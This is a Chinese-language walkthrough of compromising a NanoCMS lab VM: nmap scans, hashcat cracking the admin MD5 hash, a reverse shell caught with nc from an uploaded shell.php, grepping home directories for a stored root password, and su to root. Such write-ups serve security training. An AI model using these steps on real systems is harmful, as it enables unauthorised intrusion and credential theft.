



## 端口扫描

```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo nmap -sT --min-rate 9999 -p- 192.168.99.50
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-27 01:41 EST
Nmap scan report for 192.168.99.50
Host is up (0.0029s latency).
Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
143/tcp   open  imap
445/tcp   open  microsoft-ds
901/tcp   open  samba-swat
3306/tcp  open  mysql
35580/tcp open  unknown
MAC Address: 00:0C:29:91:A2:6A (VMware)

┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo nmap -sT -sCV -O -p 22,25,80,110,111,139,445,901,3306,35580 192.168.99.50

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 4.7 (protocol 2.0)
| ssh-hostkey: 
|   1024 05:c3:aa:15:2b:57:c7:f4:2b:d3:41:1c:74:76:cd:3d (DSA)
|_  2048 43:fa:3c:08:ab:e7:8b:39:c3:d6:f3:a4:54:19:fe:a6 (RSA)
25/tcp    open  smtp        Sendmail 8.14.1/8.14.1
| smtp-commands: localhost.localdomain Hello [192.168.99.35], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, 8BITMIME, SIZE, DSN, ETRN, AUTH DIGEST-MD5 CRAM-MD5, DELIVERBY, HELP
|_ 2.0.0 This is sendmail 2.0.0 Topics: 2.0.0 HELO EHLO MAIL RCPT DATA 2.0.0 RSET NOOP QUIT HELP VRFY 2.0.0 EXPN VERB ETRN DSN AUTH 2.0.0 STARTTLS 2.0.0 For more info use "HELP <topic>". 2.0.0 To report bugs in the implementation see 2.0.0 http://www.sendmail.org/email-addresses.html 2.0.0 For local information send email to Postmaster at your site. 2.0.0 End of HELP info
80/tcp    open  http        Apache httpd 2.2.6 ((Fedora))
|_http-server-header: Apache/2.2.6 (Fedora)
|_http-title: Phake Organization
110/tcp   open  pop3        ipop3d 2006k.101
|_pop3-capabilities: LOGIN-DELAY(180) STLS USER TOP UIDL
|_ssl-date: 2024-02-27T02:47:07+00:00; -3h58m04s from scanner time.
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100024  1          32768/udp   status
|_  100024  1          35580/tcp   status
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MYGROUP)
445/tcp   open  netbios-ssn Samba smbd 3.0.26a-6.fc8 (workgroup: MYGROUP)
901/tcp   open  http        Samba SWAT administration server
|_http-title: 401 Authorization Required
| http-auth: 
| HTTP/1.0 401 Authorization Required\x0D
|_  Basic realm=SWAT
3306/tcp  open  mysql       MySQL 5.0.45
| mysql-info: 
|   Protocol: 10
|   Version: 5.0.45
|   Thread ID: 5
|   Capabilities flags: 41516
|   Some Capabilities: ConnectWithDatabase, Speaks41ProtocolNew, Support41Auth, SupportsTransactions, SupportsCompression, LongColumnFlag
|   Status: Autocommit
|_  Salt: 2z42<tV38bcL2S/.6g%|
35580/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:91:A2:6A (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop
Service Info: Hosts: localhost.localdomain, 192.168.99.50; OS: Unix

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.26a-6.fc8)
|   Computer name: localhost
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: localhost.localdomain
|_  System time: 2024-02-26T21:45:15-05:00
|_clock-skew: mean: -2h18m04s, deviation: 2h53m12s, median: -3h58m04s
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 141.56 seconds
```

## web渗透
开放了许多端口，smb尝试一下没登进去，那就先看80端口吧
进到web页面都看到blog选项
可以直接发现是nanocms


google搜索nano的漏洞信息


得到密码泄露后解密密码

或者hashcat也可解密
```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $hashcat -m 0 -a 0 9d2f75377ac0ab991d40c91fd27e52fd /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-haswell-AMD Ryzen 5 5600H with Radeon Graphics, 2895/5854 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

9d2f75377ac0ab991d40c91fd27e52fd:shannon                  
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 9d2f75377ac0ab991d40c91fd27e52fd
Time.Started.....: Tue Feb 27 03:56:11 2024 (1 sec)
Time.Estimated...: Tue Feb 27 03:56:12 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    14962 H/s (0.19ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2048/14344385 (0.01%)
Rejected.........: 0/2048 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> lovers1
Hardware.Mon.#1..: Util: 24%

Started: Tue Feb 27 03:55:25 2024
Stopped: Tue Feb 27 03:56:13 2024
```

得到第一组密码：admin/shannon
登录到管理员后台

## 反弹shell

访问shell即可收到反弹shell

```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo nc -lvnp 2333
[sudo] fforu 的密码：
listening on [any] 2333 ...
connect to [192.168.99.35] from (UNKNOWN) [192.168.99.50] 41442
Linux localhost.localdomain 2.6.23.1-42.fc8 #1 SMP Tue Oct 30 13:55:12 EDT 2007 i686 athlon i386 GNU/Linux
 23:11:50 up  1:32,  0 users,  load average: 0.02, 0.06, 0.06
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh: no job control in this shell
sh-3.2$ whoami
apache
sh-3.2$ 
```
## 提权
sudo -l后显示如下

看不明白但是没有password，尝试寻找其它线索

```bash
bash-3.2$ cat /etc/passwd |grep bash
cat /etc/passwd |grep bash
root:x:0:0:root:/root:/bin/bash
patrick:x:500:500:Patrick Fair:/home/patrick:/bin/bash
jennifer:x:501:501:Jennifer Sea:/home/jennifer:/bin/bash
andy:x:502:502:Andrew Carp:/home/andy:/bin/bash
loren:x:503:503:Loren Felt:/home/loren:/bin/bash
amy:x:504:504:Amy Pendelton:/home/amy:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
```
这里可以发现用户很多
用户很多的情况下，可以尝试查看敏感信息，用户可能残留敏感信息
grep -R表示递归搜索 -i忽略大小写
```bash
bash-3.2$ grep -R -i pass /home 2>/dev/null
grep -R -i pass /home 2>/dev/null
/home/andy/public_html/README FIRST.txt:        -Password : demo
/home/andy/public_html/README FIRST.txt:        + Username / Password settings from Admin Panel itself.
/home/andy/public_html/data/pagesdata.txt:a:12:{s:8:"homepage";s:1:"1";s:10:"links_cats";a:4:{s:7:"sidebar";a:3:{i:0;i:1;i:1;i:4;i:2;i:12;}s:11:"other-pages";a:0:{}s:14:"top-navigation";a:2:{i:0;s:1:"1";i:1;s:1:"4";}s:12:"Footer-Right";a:2:{i:0;s:1:"1";i:1;s:1:"4";}}s:5:"slugs";a:3:{i:1;s:4:"home";i:4;s:7:"contact";i:12;s:8:"shellphp";}s:6:"titles";a:3:{i:1;s:4:"Home";i:4;s:7:"Contact";i:12;s:9:"shell.php";}s:10:"slug_count";i:12;s:8:"settings";a:3:{s:19:"index-last-modified";i:1234513760;s:18:"def-template-areas";a:4:{i:0;s:12:"website name";i:2;s:14:"website slogan";i:3;s:16:"below navigation";i:4;s:16:"copyright notice";}s:18:"def-template-links";a:2:{i:0;s:14:"top-navigation";i:1;s:12:"Footer-Right";}}s:13:"active-tweaks";a:2:{i:0;s:7:"deutsch";i:1;s:19:"language-pack-tweak";}s:11:"lang-select";s:7:"english";s:6:"seourl";s:1:"0";s:8:"username";s:5:"admin";s:8:"password";s:32:"9d2f75377ac0ab991d40c91fd27e52fd";s:7:"version";s:4:"v_4f";}
/home/andy/public_html/data/libs/admin.login.lib.php:$admin_pass = getDetails('password');
/home/andy/public_html/data/libs/admin.login.lib.php:           if( $_POST['user'] == $admin_user and md5($_POST['pass']) == $admin_pass ) {
/home/andy/public_html/data/libs/admin.login.lib.php:                   $_SESSION[ NANO_CMS_ADMIN_LOGGED ] = md5( $admin_pass . $ts . dirname($_SERVER['REQUEST_URI']) ); //die('done');
/home/andy/public_html/data/libs/admin.login.lib.php:                   $loginbox_msg = lt( "Error : wrong Username or Password" );
/home/andy/public_html/data/libs/admin.login.lib.php:if( $_SESSION[ NANO_CMS_ADMIN_LOGGED ] != md5( $admin_pass . $_SESSION[ LOGIN_TIME_STAMP ] . dirname($_SERVER['REQUEST_URI']) ) or !isset( $_SESSION[NANO_CMS_ADMIN_LOGGED] ) )
/home/andy/public_html/data/libs/admin.settings.lib.php:                $password = $_POST['password'];
/home/andy/public_html/data/libs/admin.settings.lib.php:                if(!empty($password)) {
/home/andy/public_html/data/libs/admin.settings.lib.php:                        setDetails('password',md5($password));
/home/andy/public_html/data/libs/admin.settings.lib.php:                        $_SESSION[ NANO_CMS_ADMIN_LOGGED ] = md5( md5($password) . $_SESSION[ LOGIN_TIME_STAMP ] );
/home/andy/public_html/data/libs/admin.settings.lib.php:        $word_password = lt('Password');
/home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note:  <title>Root password</title>
/home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note:  <text xml:space="preserve"><note-content version="0.1">Root password
/home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note:Root password
/home/patrick/.tomboy.log:12/5/2012 7:24:46 AM [DEBUG]: Renaming note from New Note 3 to Root password
/home/patrick/.tomboy.log:12/5/2012 7:24:56 AM [DEBUG]: Saving 'Root password'...
/home/patrick/.tomboy.log:12/5/2012 7:25:03 AM [DEBUG]: Saving 'Root password'...

```
这里可以很明显看到`tomboy`这个文件存留有rootpassword的信息
```bash
bash-3.2$ cat /home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note
cat /home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note
<?xml version="1.0" encoding="utf-8"?>
<note version="0.2" xmlns:link="http://beatniksoftware.com/tomboy/link" xmlns:size="http://beatniksoftware.com/tomboy/size" xmlns="http://beatniksoftware.com/tomboy">
  <title>Root password</title>
  <text xml:space="preserve"><note-content version="0.1">Root password

Root password

50$cent</note-content></text>
  <last-change-date>2012-12-05T07:24:52.7364970-05:00</last-change-date>
  <create-date>2012-12-05T07:24:34.3731780-05:00</create-date>
  <cursor-position>15</cursor-position>
  <width>450</width>
  <height>360</height>
  <x>0</x>
  <y>0</y>
  <open-on-startup>False</open-on-startup>
```
这里看到`50$cent`,就是root用户密码
```bash
</note>bash-3.2$ su root
su root
Password: 50$cent

[root@localhost tmp]# whoami
whoami
root
```